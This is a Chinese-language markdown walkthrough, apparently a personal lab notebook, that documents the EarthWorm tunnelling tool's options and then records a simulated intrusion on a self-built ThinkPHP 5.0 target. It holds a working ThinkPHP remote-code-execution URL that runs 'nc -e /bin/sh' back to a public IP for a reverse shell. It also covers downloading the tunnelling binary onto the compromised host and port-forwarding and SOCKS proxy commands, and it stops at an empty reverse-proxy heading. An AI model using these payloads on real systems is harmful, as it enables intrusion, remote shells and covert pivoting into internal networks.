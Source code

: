 
# - -help 
```
VERSION : free 1.0 
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s state setup the function.You can pick one from the 
 following options:
 ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 # -s 选项选择连接模式，除了lcx的三种模式还有ssocksd正向SOCKS V5服务器、（rcsocks(公网监听转发主机)、rssocks（目标主机））反弹SOCKS V5服务器。
 -l listenport open a port for the service startup.#监听端口
 -d refhost set the reflection host address.#设置反射主机地址（公网IP）
 -e refport set the reflection port.#设置转发到的端口
 -f connhost set the connect host address .#设置连接主机地址（参考lcx的h2）要把这台内网主机的流量转发到公网上
 -g connport set the connect port.#设置要转发出去的端口（参考lcx的p2）
 -h help show the help text, By adding the -s parameter,
 you can also see the more detailed help.# 可以使用 ./ew -s [ssocksd|rcsocks|rssocks|lcx_listen|lcx_tran|lcx_slave]等获取关于具体模式的帮助
 -a about show the about pages # 显示关于
 -v version show the version. #显示版本
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 #忙猜设置超时时间，默认1000  英语不好也可以猜
 ......
```

# 参考教程敲一遍（做个小模拟渗透）
**注：** 
- 攻击机位于我的笔记本上的kali nat联网 ip：192.168.153.133
- 被攻击的是校内我搭建的靶机 ip:10.203.87.64  环境：tp5.0
- 公网主机：45.\*.\*.190
## 做个小模拟渗透
利用命令执行弹shell
  
这次用NC弹shell
http://10.203.87.64/tp5/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc%20-e%20/bin/sh%2045.76.101.190%201235


公网服务器上面监听：
nc -l -p 1235
下载ew
wget -p /tmp http://45.\*.\*.190/ew_for_linux
chmod +x ew_for_linux

## 使用lcx相关的功能（不知道为什么就是用不了 ssh抓包 握手成功了  请求也发出去了  就是没有相应 也不断开连接，从1.0换到1.2也不行，感觉像是防火墙的问题，但是使用lcx却连接上了，同样的端口）
### 将肉鸡的22端口或者内网中的10.203.87.61的80端口转发到公网上8888端口
`./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522`

> 第一次用就出了一个问题
```
[root@localhost 45.*.*.190]# ./ew_for_linux -s lcx_slave  -d 45.*.*.190 -e 8888    -f 127.0.0.1  -g  6522
-bash: ./ew_for_linux: /lib/ld-linux.so.2: bad ELF interpreter: 没有那个文件或目录
```
> 解决方案到肉鸡上：yum install glibc.i686，那么如果肉鸡上没有安装权限可能就要换工具了

### 公网服务器监听端口转发8888
` ./ew_for_linux -s lcx_listen -l  8888   -e 8889`


# 直接测试socks代理吧还是

## 打开正向socks V5代理(好像多了一种用工作室的网的方式)
./ew_for_linux -s ssocksd -l 1080

## 反向代理
